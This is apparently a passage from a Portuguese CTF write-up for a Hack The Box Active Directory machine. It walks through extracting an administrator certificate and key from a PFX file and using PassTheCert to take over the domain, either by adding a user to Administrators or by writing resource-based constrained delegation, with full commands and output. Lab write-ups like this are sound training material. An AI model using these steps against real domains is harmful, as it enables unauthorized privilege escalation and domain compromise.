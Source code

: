     Por isso, instalamos o passthecert
    
    ```
    git clone https://github.com/AlmondOffSec/PassTheCert.git
    cd PassTheCert
    cp ../administrator_authority.pfx .
    ```
    
    Utilizamos o ssl e colocar duas vezes a password no PEM, password 1234
    
    `openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key`
    
    ```
    openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
    Enter Import Password:
    Enter PEM pass phrase:1234
    Verifying - Enter PEM pass phrase
    ```
    
    ```
    openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out
    administrator.crt
    Enter Import Password:
    ```
    
    A partir daqui existem duas alternativas
    
    - Adicionar ao grupo de administradores
        
        Password `1234`
        
        ```
        python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb  -dc-ip 10.129.229.56 
        Impacket v0.12.0.dev1+20231130.165011.d370e635 - Copyright 2023 Fortra
        
        Enter PEM pass phrase:
        Type help for list of commands
        
        # add_user_to_group svc_ldap administrators
        Adding user: svc_ldap to group Administrators result: OK
        
        # exit
        Bye!
        ```
        
        `psexec.py svc_ldap@10.129.229.56`
        
    - Obter Hash
        
        `python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -crt administrator.crt -key
        administrator.key -domain authority.htb -port 636 -action write_rbcd -delegate-to
        'AUTHORITY$' -delegate-from 'EVIL01$'`
        
        ```
        python3 ./Python/passthecert.py -dc-ip 10.10.11.222 -crt administrator.crt -key
        administrator.key -domain authority.htb -port 636 -action write_rbcd -delegate-to
        'AUTHORITY$' -delegate-from 'EVIL01$'
        Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
        Enter PEM pass phrase:1234
        [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
        [*] Delegation rights modified successfully!
        [*] EVIL01$ can now impersonate users on AUTHORITY$ via S4U2Proxy
        [*] Accounts allowed to act on behalf of other identity:
        [*] EVIL01$ (S-1-5-21-622327497-3269355298-2248959698-11602)
        ```
        